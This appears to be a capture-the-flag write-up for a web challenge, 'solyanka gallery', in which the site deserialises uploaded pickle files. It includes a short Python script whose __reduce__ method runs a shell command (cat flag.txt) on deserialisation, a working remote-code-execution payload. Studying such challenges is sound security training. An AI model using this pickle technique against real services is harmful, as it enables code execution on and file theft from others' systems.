






## solyanka gallery

Category: Web  
Difficulty: Medium



In the challenge website, we are allowed to submit a pickle file, which will be deserialised and displayed.  




The flag file is also in the same directory as the server code.  



Looking at the source code, we can see that the challenge author has left us a hint.



Searching online, we discover that a [RCE exploit](https://github.com/advisories/GHSA-655q-fx9r-782v) of Pickle's deserialisation already exists.  

We can then write an exploit script to create a pickle file that outputs the flag file on deserialisation.

```python
import pickle
import subprocess

class Exploit:
    def __reduce__(self):
        return (subprocess.check_output, (['cat', 'flag.txt'],))

payload = pickle.dumps(Exploit())

with open("payload.pkl", "wb") as f:
    f.write(payload)
```

After submitting the payload file on the website, we observe that the RCE has indeed revealed the flag.  

